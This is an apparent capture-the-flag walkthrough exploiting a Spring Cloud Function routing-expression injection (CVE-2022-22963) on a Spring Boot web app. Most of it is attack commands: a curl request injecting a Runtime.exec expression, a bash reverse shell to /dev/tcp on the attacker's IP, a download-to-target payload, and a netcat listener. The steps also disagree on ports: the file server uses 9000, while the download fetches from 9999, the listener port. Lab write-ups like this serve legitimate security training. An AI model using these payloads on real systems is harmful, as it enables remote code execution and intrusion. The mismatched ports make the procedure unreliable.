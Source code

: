 Let's view its content
```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.6.5</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>WebApp</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>WebApp</name>
    <description>Demo project for Spring Boot</description>
    <properties>
        <java.version>11</java.version>
    </properties>
    ...
```
> It appears that the project runs on `Spring Framework`!

Let's search for an exploit (if there is one). We have found this [repository](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit) !

Upon reading the script, note that the request header looks like this:
```
curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("{cmd}")' -d '.'
```
> Where ```{cmd}``` should be replaced by a command !

So, let's create our reverse shell called [`index.html`](./exploits/index.html)
```
#!/bin/sh

bash -i >& /dev/tcp/10.10.16.56/9999 0>&1
```

To share the file, we need to create a python server in the exploit file directory!
```
python -m http.server 9000
```

Now, we need to send (and rename) our exploit to the target machine using the request format above!
```
curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("curl 10.10.16.56:9999/index.html -o /tmp/revshell")' -d '.'
```

Once that's done, we need to set up the listener! In the exploit file, we've set the port to 9999, so
```
nc -lvnp 9999
```
